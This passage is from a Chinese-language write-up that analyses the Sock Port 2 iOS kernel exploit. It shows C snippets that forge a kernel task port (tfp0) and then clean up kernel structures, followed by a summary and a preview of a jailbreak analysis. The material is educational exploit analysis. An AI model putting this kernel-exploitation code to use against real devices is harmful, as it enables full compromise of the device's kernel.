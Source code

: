 ```c
    printf("[-] failed to kalloc faketask\n");
    goto err;
}

kwrite(faketask, fake_task, 0x600);
fakeport->ip_kobject = faketask;

kwrite(new_addr, (const void*)fakeport, sizeof(kport_t));
```
这里先创建了一个具有 send rights 的 port，然后重新创建了一个区域来容纳 kernel task，这消除了之前 `ipc_port` 与 task 在 Port Pipe Buffer 中相邻从而带来的隐患。随后将 Port Pipe Buffer 中的 task 拷贝到新分配的 task 区域，再将 fakeport 数据完整拷贝到新创建的 port，由此我们得到了一个新的 tfp0。

# 环境清理
接下来我们将先前的 tfp0 port 从进程的 port 索引表中抹去，再将已释放的 Pipe Buffer 从 fd 索引表中抹去，最后关闭 IOSurfaceClient 与 pipe，释放 userland 临时分配的缓冲区：
```c
// clean up port
uint64_t task_addr = rk64(self_port_addr + koffset(KSTRUCT_OFFSET_IPC_PORT_IP_KOBJECT));
uint64_t itk_space = rk64(task_addr + koffset(KSTRUCT_OFFSET_TASK_ITK_SPACE));
uint64_t is_table = rk64(itk_space + koffset(KSTRUCT_OFFSET_IPC_SPACE_IS_TABLE));

uint32_t port_index = our_port >> 8;
const int sizeof_ipc_entry_t = 0x18;

wk32(is_table + (port_index * sizeof_ipc_entry_t) + 8, 0);
wk64(is_table + (port_index * sizeof_ipc_entry_t), 0);

wk64(fg_data + koffset(KSTRUCT_OFFSET_PIPE_BUFFER), 0); // freed already via mach_msg()

if (fds[0] > 0)  close(fds[0]);
if (fds[1] > 0)  close(fds[1]);
if (port_fds[0] > 0)  close(port_fds[0]);
if (port_fds[1] > 0)  close(port_fds[1]);

free((void *)fakeport);
deinit_IOSurface();
```
到这里整个 Sock Port 利用就分析完了，我们拿到了稳定的 tfp0，距离 Jailbreak 又近了一步。

# 总结
本文梳理了 Sock Port 2 获得 tfp0 的整个过程，并对关键步骤进行了讲解，通过阅读本文能够对 Sock Port 在整体和细节上分别有深入的认识。

# 下节预告
到这里 Sock Port 漏洞解析就告一段落了，通过这个 Exploit 我们仅仅取得了 tfp0，距离 Jailbreak 还有很远的距离。接下来的文章将开始分析讲解 Undecimus Jailbreak 源码，讲解从 tfp0 到内核代码执行，再到各种 Kernel Patch。

<img style="width: 320px;" src="https://user-gold-cdn.xitu.io/2019/8/24/16cc33a51b0a7319?w=1005&h=1164&f=png&s=197292"></img>

# 参考资料
1. [Supervisor Mode Access Prevention. Wikipedia](https://en.wikipedia.org/wiki/Supervisor_Mode_Access_Prevention)
2. [Pipe System Call. GeeksforGeeks](https://www.geeksforgeeks.org/pipe-system-call/)
3. [Sock Port 2. jakeajames](https://github.com/jakeajames/sock_port)